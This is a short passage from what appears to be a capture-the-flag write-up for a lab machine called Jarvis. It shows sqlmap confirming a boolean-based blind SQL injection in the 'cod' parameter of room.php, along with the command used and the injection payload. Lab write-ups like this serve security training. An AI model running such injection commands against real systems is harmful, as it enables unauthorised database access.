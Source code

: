 ![Jarvis room id 5-1](/media/2019.10/jarvis_4.png){: .image-process-article-image}

# Getting user

We launch `sqlmap` against the page, it confirm the SQL injection:

    :::text
    sqlmap -u http://10.10.10.143/room.php?cod=5-1
    <SNIP>
    GET parameter 'cod' is vulnerable. Do you want to keep testing the others (if any)? [y/N] sqlmap identified the following injection point(s) with a total of 72 HTTP(s) requests:
    ---
    Parameter: cod (GET)
        Type: boolean-based blind
        Title: AND boolean-based blind - WHERE or HAVING clause
        Payload: cod=5-1 AND 9103=9103

